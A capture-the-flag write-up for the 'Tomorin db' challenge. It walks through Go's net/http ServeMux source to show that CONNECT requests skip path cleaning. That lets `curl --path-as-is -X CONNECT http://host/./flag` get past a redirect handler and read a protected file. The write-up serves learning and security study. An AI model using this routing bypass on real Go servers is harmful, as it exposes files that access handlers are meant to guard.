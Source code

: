 # Tomorin db 🐧
> Author: 堇姬Naup

## analyze
Its souce code is short.
It build one fileserver, and we can get under `/app/Tomorin` file.
```go
package main

import "net/http"

func main() {
	http.Handle("/", http.FileServer(http.Dir("/app/Tomorin")))
	http.HandleFunc("/flag", func(w http.ResponseWriter, r *http.Request) {
		http.Redirect(w, r, "https://youtu.be/lQuWN0biOBU?si=SijTXQCn9V3j4Rl6", http.StatusFound)
  	})
  	http.ListenAndServe(":30000", nil)
}
```

And flag is in `/app/Tomorin`
But when we try to request to get flag, you will be redirected to youtube.
Because it have another handler which handle `/flag` request.

So we try to request `http://host/flag`
You don't get flag, and `/flag` handler will handle it.

When you try to request `http://host/./flag`, `http//host/../flag` or etc.
It still redirect you to youtube.
It sound so strange, so let me check source code.

## golang source code
You can read go 1.23.1 source code.

First read this

[src/net/http/server.go#L2573C1-L2579C2](https://github.com/golang/go/blob/release-branch.go1.23/src/net/http/server.go#L2573C1-L2579C2)

Your request will call `func Hnadler` and it next will call `findHnadler`

```go
func (mux *ServeMux) Handler(r *Request) (h Handler, pattern string) {
	if use121 {
		return mux.mux121.findHandler(r)
	}
	h, p, _, _ := mux.findHandler(r)
	return h, p
}
```

[src/net/http/server.go#L2585](https://github.com/golang/go/blob/release-branch.go1.23/src/net/http/server.go#L2585)

If we request not `CONNECT`, it will enter this part.
It will do `cleanPath(path)`
So if we try to request `http://host/./flag`, `./flag` path will be edit.
It change `./flag` to `/flag`. 

[cleanpath docs](https://pkg.go.dev/github.com/PuerkitoBio/httpmw/cleanpath)

[cleanpath source code](https://github.com/golang/go/blob/release-branch.go1.23/src/net/http/server.go#L2524C1-L2543C2)

```go
	} else {
		// All other requests have any port stripped and path cleaned
		// before passing to mux.handler.
		host = stripHostPort(r.Host)
		path = cleanPath(path)

		// If the given path is /tree and its handler is not registered,
		// redirect for /tree/.
```

But we can read request method `CONNECT`
```go
	if r.Method == "CONNECT" {
		// If r.URL.Path is /tree and its handler is not registered,
		// the /tree -> /tree/ redirect applies to CONNECT requests
		// but the path canonicalization does not.
		_, _, u := mux.matchOrRedirect(host, r.Method, path, r.URL)
		if u != nil {
			return RedirectHandler(u.String(), StatusMovedPermanently), u.Path, nil, nil
		}
		// Redo the match, this time with r.Host instead of r.URL.Host.
		// Pass a nil URL to skip the trailing-slash redirect logic.
		n, matches, _ = mux.matchOrRedirect(r.Host, r.Method, path, nil)
```
It doesn't call cleanpath cleaning your url path.
And directly call next function.

So we try to do this :

`curl --path-as-is -X CONNECT http://host/./flag`

you will get flag!

PS: If you use curl, curl still normalize the URL path. we can add `--path-as-is` prevent it do normalize.

## script 
```sh
curl --path-as-is -X CONNECT http://host/./flag
```
